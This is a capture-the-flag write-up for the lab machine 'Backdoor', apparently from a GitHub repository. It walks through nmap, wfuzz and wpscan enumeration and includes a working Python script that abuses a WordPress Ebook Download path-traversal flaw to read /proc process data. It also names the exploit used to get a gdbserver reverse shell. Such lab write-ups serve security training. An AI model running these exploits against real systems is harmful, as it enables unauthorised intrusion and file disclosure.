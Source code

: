## Enumeration

The IP is 10.10.11.125, I will add it to /etc/hosts

Let's start off by enumerating the open ports:

`nmap -p- --open -sS -v -n -Pn backdoor.htb -oG allPorts`
  
It returns ports 22, 80 and 1337 as being open. 
  
I will run a nmap script to list the services and their versions that are running on each open port
  
`nmap -p22,80,1337 -sCV <ip> -oN targeted`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If you try to access via browser you will get an innocent website, where you can't do much.

Let's try to list subdirectories using wfuzz:

`wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -u "backdoor.htb/FUZZ" --hc=404 -c`

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000238:   301        9 L      28 W       317 Ch      "wp-content"
000000765:   301        9 L      28 W       318 Ch      "wp-includes"
000006941:   301        9 L      28 W       315 Ch      "wp-admin"
```

Knowing that we are dealing with Wordpress as the CMS, we can try running wpscan to list vulnerable plugins.
You will need an API token, which you can get [here](wpscan.com).

`wpscan --url http://backdoor.htb/ --enumerate vp --plugins-detection aggressive --api-token <token>`

```
[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
```

## Foothold

We can see that there is a vulnerable plugin called Ebook Download. If we search for it on searchsploit, we fill find file with id 39575.
I will download it on my computer using:

`searchsploit -m 39575`

If we open the text file, we can see that the plugin is vulnerable to Path Traversal and Local File Inclusion.
We can list running processes using the path /proc/<pid>/cmdline.
Using a Python script to iterate through the PIDs, we can find which are running.

```python
#!/bin/python3

import signal
import requests
import sys

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Stopping the process...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"
empty_resp = 125

p1 = log.progress("Brute force")
p1.status("Starting brute force attack")

for pid in range(0,5000):
    p1.status("Testing pid %d" % (pid))
    content = (requests.get(main_url + str(pid) + "/cmdline")).content
    if (len(content) > empty_resp):
        print(f"[+] Process {pid} found")
        print(content)
        print("--------------------------------------------\n")
```

We see that there's a service called gdbserver running on the open port 1337:
  
```
[+] Process 850 found
b'/proc/850/cmdline/proc/850/cmdline/proc/850/cmdline/bin/sh\x00-c\x00while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;";done\x00<script>window.close()</script>'
```
  
If we look for it on searchsploit we will find a vulnerability with id 50539.
If we run it and follow the instructions provided, we can get a reverse shell as user and view the flag.

